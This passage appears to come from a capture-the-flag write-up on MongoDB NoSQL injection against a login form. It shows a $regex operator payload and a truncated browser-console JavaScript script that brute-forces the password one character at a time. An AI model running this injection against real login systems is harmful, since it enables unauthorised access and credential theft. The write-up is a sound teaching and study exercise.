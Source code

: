 ```
    Welcome: bob!

And we find out that the username is bob. We have no clue on the password though.

Seeing that no login cookies were returned, my initial assumption is the password is probably the flag. (Spoiler: it is not)

### Extract Password?

The [`$gt` is actually one of MongoDB's operators](https://docs.mongodb.com/manual/reference/operator/query/gt/).

Let's try some regex [using `$regex`](https://docs.mongodb.com/manual/reference/operator/query/regex/).

    >> send('{"username": "bob", "password": {"$regex": "^.*"}}')
    Welcome: bob!

Using this idea, we can use regex to check if the string ***starts with a certain character***. 

We repeatedly do this for each character, and compare which one is successful (`Welcome: bob!`).

Afterwhich, we will be able to slowly extract each character of the password

---

I came up with the Javascript code to bruteforce the password.

Run it within the browser JS console.

    successAlready = true; // prevent 2 entries from adding onto flag
    progress = ''
    charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&\'()*+,-./:;<=>@[\\]^_`{|}~ "

    function escapeRegExp(string){
      return string.replace(/[.*+?^${}()|[\]\\]/g, '\\$&'); 
      // double escape it because it needs to be processed twice
      // $& means the whole matched string
    }

    function execute() {
        successAlready = false; // reset on each attempt
        for (var i = 0; i < charset.length; i++) {
            ch = charset.charAt(i);
            ch = escapeRegExp(ch)
            // payload = {"username": "bob", "password": {"$regex": "^A.*$"}}'.replace('A', progress + ch);
            regex_pattern = "^A.*$".replace('A', progress + ch)
            payload = JSON.stringify({"username": "bob", "password": {"$regex": regex_pattern}})
            // console.log(payload);
            sender(payload, ch);
        }
    }

    function sender(data, ch) {
        return $.ajax({
            url: 'login', 
            type : "POST", 
            dataType : 'json', 
            data : data,
            contentType: 'application/json;charset=UTF-8',
            success : function(result) {
```